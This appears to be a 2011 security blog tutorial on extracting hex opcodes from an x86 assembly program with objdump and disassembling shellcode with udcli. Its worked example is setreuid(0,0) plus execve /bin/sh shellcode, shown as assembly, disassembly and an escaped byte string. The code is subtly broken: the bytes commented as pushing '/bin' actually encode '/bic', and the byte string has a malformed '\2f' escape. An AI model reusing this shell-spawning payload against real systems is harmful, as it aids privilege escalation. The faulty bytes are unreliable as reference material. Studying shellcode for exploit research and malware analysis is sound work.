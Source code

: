 Title: Disassembly
Date: 2011-12-20 17:58
Author: isis agora lovecruft
Category: hacking
Tags: ASM, shellcode

<!-- PELICAN_BEGIN_SUMMARY -->

Often when doing exploit development, it's [necessary to extract hex
opcodes](|filename|../learning-assembly-through-writing-shellcode.html)
from an assembly or C program to generate shellcode.
Normally, to do this, one uses **objdump** as in the following example:

    ∃!isisⒶwintermute:~ ∴ cat shellcode.asm

<pre class="prettyprint lang-asm">
section .text
    global _start

_start:
    ;; setreuid (0,0)
    xor eax, eax      ;clear the eax registry
    mov al, 0x46      ;set the syscall # to decimal 70 or hex 46, one byte
    xor ebx, ebx
    xor ecx, ecx
    int 0x80          ;system interrupt to call kernel to execute syscall
    ;; spawn shellcode with execve
    xor eax, eax
    push eax          ;push a NULL value on the stack
    push 0x68732f2f   ;push '//sh' onto the stack
    push 0x6369622f   ;push '/bin' onto the stack
    mov ebx, esp      ;esp now points to '/bin/sh', so write to ebx
    push eax          ;push another NULL to terminate char* argv on stack
    push ebx          ;push pointer to '/bin/sh' onto stack
    mov ecx, esp      ;esp now holds the address of argv, so write to ecx
    xor edx, edx
    mov al, 0xb       ;set the syscall # to decimal 11 or hex b, one byte
    int 0x80          ;sytem interrupt to call kernel to execute syscall
</pre>

<pre class="prettyprint lang-bash">
    ∃!isisⒶwintermute:~ ∴ nasm -f elf shellcode.asm
    ∃!isisⒶwintermute:~ ∴ ld -melf_i386 -o shellcode shellcode.o
    ∃!isisⒶwintermute:~ ∴ objdump -d ./shellcode
    ./shellcode: file format elf32-i386
    Disassembly of section .text:
        08048060 <_start>:
        8048060: 31 c0            xor %eax,%eax
        8048062: b0 46            mov $0x46,%al
        8048064: 31 db            xor %ebx,%ebx
        8048066: 31 c9            xor %ecx,%ecx
        8048068: cd 80            int $0x80
        804806a: 31 c0            xor %eax,%eax
        804806c: 50               push %eax
        804806d: 68 2f 2f 73 68   push $0x68732f2f
        8048072: 68 2f 62 69 63   push $0x6369622f
        8048077: 89 e3            mov %esp,%ebx
        8048079: 50               push %eax
        804807a: 53               push %ebx
        804807b: 89 e1            mov %esp,%ecx
        804807d: 31 d2            xor %edx,%edx
        804807f: b0 0b            mov $0xb,%al
        8048081: cd 80            int $0x80
</pre>

So, from this example, the shellcode would be:

<pre class="prettyprint lang-bash">
    \x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\x31\xc0\x50\x68\x2f\2f\x73\x68\x68\x2f\x62\x69\x63\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
</pre>

<!-- PELICAN_END_SUMMARY -->

But! What if you have some shellcode, say from a nasty PDF that someone
sent you (though a malPDF's shellcode would be in JavaScript, and so it
would look like "%u68%u73%u2f%u2f"), and you don't want to have to sit
there with a hex-to-ascii chart looking everything up by hand just to
find out what this shellcode is doing? As it turns out, there's a handy
little thing called [udis86](http://udis86.sourceforge.net/)
to do all that boring work for you. You
have to download their tarball, then do:

<pre class="prettyprint lang-bash">
    $ ./configure && make && make install
</pre>

And run it with:

<pre class="prettyprint lang-bash">
    $ udcli
</pre>

Words can't describe how much I'm crushing on this program. Check this
out:

<pre class="prettyprint lang-bash">
    ∃!isisⒶwintermute:~ ∴ udcli -x \
    … 31 c0 b0 46 31 db 31 c9 cd 80 31 c0 50 68 2f 2f 73 68 68 2f 62 69 63 89 e3 50 53 89 e1 31 d2 b0 0b cd 80
    0000000000000000 31c0              xor eax, eax
    0000000000000002 b046              mov al, 0x46
    0000000000000004 31db              xor ebx, ebx
    0000000000000006 31c9              xor ecx, ecx
    0000000000000008 cd80              int 0x80
    000000000000000a 31c0              xor eax, eax
    000000000000000c 50                push eax
    000000000000000d 682f2f7368        push dword 0x68732f2f
    0000000000000012 682f626963        push dword 0x6369622f
    0000000000000017 89e3              mov ebx, esp
    0000000000000019 50                push eax
    000000000000001a 53                push ebx
    000000000000001b 89e1              mov ecx, esp
    000000000000001d 31d2              xor edx, edx
    000000000000001f b00b              mov al, 0xb
    0000000000000021 cd80              int 0x80
</pre>
